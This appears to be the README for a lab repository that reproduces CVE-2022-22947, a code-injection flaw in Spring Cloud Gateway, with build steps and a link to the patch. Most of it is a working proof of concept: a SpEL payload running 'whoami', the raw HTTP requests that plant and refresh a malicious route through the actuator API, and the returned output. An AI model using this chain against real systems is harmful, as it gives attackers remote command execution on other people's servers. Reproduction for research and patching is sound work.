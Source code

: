 # CVE-2022-22947

> Blog 首发于 [CVE-2022-22947 分析-云社区-华为云](https://bbs.huaweicloud.com/blogs/335870)

## Build

1. `mvn install`
2. `run person.xu.vulEnv.Cve202222947Application`

## POC

**edit yml config**

在配置文件中新增路由

```yml
spring:
  cloud:
    gateway:
      routes:
      - id: after_route
        uri: https://example.org
        predicates:
        - name: Cookie
          args:
            name: "#{T(java.lang.Runtime).getRuntime().exec('whoami')}"
            regexp: mycookievalue
```

**from actuator api**

根据 actuator api[^1],可以利用 `/gateway/routes/{id_route_to_create}` 接口来刷新路由

```json
{
  "id": "first_route",
  "predicates": [
    {
      "name": "Cookie",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec('whoami')}",
        "_genkey_1": "mycookievalue"
      }
    }
  ],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

1. 创建路由

```http
POST /actuator/gateway/routes/first_route HTTP/1.1
Host: 7.250.141.54:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Content-Type: application/json
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

{
  "id": "first_route",
  "predicates": [
    {
      "name": "Cookie",
      "args": {
        "_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec('whoami')}",
        "_genkey_1": "mycookievalue"
      }
    }
  ],
  "filters": [],
  "uri": "https://www.uri-destination.org",
  "order": 0
}
```

2. 刷新路由

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: 7.250.141.54:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Origin: http://7.250.141.54:8080
Referer: http://7.250.141.54:8080/actuator/gateway/routes
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
```

3. 获取命令执行结果

访问 `actuator/gateway/routes`

```json
{
  "predicate": "Cookie: name=desktop-um80nhi\\xu regexp=mycookievalue",
  "route_id": "first_route",
  "filters": [ ],
  "uri": "https://www.uri-destination.org:443",
  "order": 0
}
```

## Patch

> [Comparing v3.0.6...v3.0.7 · spring-cloud/spring-cloud-gateway](https://github.com/spring-cloud/spring-cloud-gateway/compare/v3.0.6...v3.0.7)


[^1]: [11. Actuator API](https://cloud.spring.io/spring-cloud-gateway/multi/multi__actuator_api.html)